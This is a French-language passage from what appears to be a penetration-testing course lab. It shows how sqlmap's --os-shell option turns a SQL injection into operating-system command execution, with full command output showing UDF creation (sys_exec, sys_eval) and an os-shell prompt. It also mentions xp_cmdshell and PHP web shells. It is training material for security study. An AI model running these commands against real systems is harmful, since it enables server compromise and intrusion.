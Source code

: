 * * * * *

Exécution des commandes du système d'exploitation
-------------------------------------------------

Maintenant que nous avons confirmé que nous pouvions écrire un shell PHP pour exécuter des commandes, nous pouvons tester la capacité de SQLMap à nous fournir un shell de système d'exploitation simple sans écrire manuellement un shell distant. SQLMap utilise diverses techniques pour obtenir un shell distant via des vulnérabilités d'injection SQL, comme l'écriture d'un shell distant, comme nous venons de le faire, l'écriture de fonctions SQL qui exécutent des commandes et récupèrent la sortie ou même l'utilisation de certaines requêtes SQL qui exécutent directement des commandes du système d'exploitation, comme dans Microsoft SQL `xp_cmdshell`. Serveur. Pour obtenir un shell de système d'exploitation avec SQLMap, nous pouvons utiliser l' `--os-shell`option suivante :

```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --os-shell

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 18:02:15 /2020-11-19/

[18:02:16] [INFO] resuming back-end DBMS 'mysql'
[18:02:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[18:02:37] [INFO] the local file '/tmp/sqlmapmswx18kp12261/lib_mysqludf_sys8kj7u1jp.so' and the remote file './libslpjs.so' have the same size (8040 B)
[18:02:37] [INFO] creating UDF 'sys_exec' from the binary UDF file
[18:02:38] [INFO] creating UDF 'sys_eval' from the binary UDF file
[18:02:39] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
[18:02:39] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la
do you want to retrieve the command standard output? [Y/n/a] a

[18:02:45] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
No output

```

Nous voyons que SQLMap a utilisé par défaut la `UNION`technique pour obtenir un shell de système d'exploitation, mais n'a finalement pas réussi à nous donner de résultat `No output`. Donc, comme nous savons déjà que nous avons plusieurs types de vulnérabilités d'injection SQL, essayons de spécifier une autre technique qui a de meilleures chances de nous donner une sortie directe, comme la , `Error-based SQL Injection`que nous pouvons spécifier avec`--technique=E` :

